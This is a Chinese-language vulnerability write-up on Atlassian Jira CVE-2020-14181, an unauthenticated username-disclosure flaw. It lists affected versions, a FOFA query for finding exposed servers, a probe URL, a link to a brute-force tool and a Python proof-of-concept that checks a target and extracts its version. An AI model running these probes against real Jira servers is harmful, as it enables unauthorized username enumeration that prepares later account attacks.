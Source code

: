 # Atlassian Jira 信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

> [!NOTE]
>
> Atlassian Jira < 7.13.6
>
> Atlassian Jira 8.0.0 - 8.5.7
>
> Atlassian Jira 8.6.0 - 8.12.0

## FOFA

> [!NOTE]
>
> app="Jira"

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中

![](image/jira-1.png)

使用POC对用户名是否存在进行验证

http://xxx.xxx.xxx.xxx/secure/ViewUserHover.jspa?username=admin

用户名如果不存在会返回

![](image/jira-2.png)

存在的用户名会返回

![](image/jira-4.png)

不存在漏洞会返回

![](image/jira-3.png)



## 漏洞利用POC

> [!NOTE]
>
> POC只用于探测是否存在漏洞
>
> 爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> UserNameFile                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vurl_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vurl_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "User does not exist: peiqipeiqipeiqi" in response.text or "用户不存在peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)

```

![](image/jira-6.png)

## Goby & POC

> [!NOTE]
>
> Atlassian Jira 信息泄露漏洞 CVE-2020-14181

![](image/jira-5.png)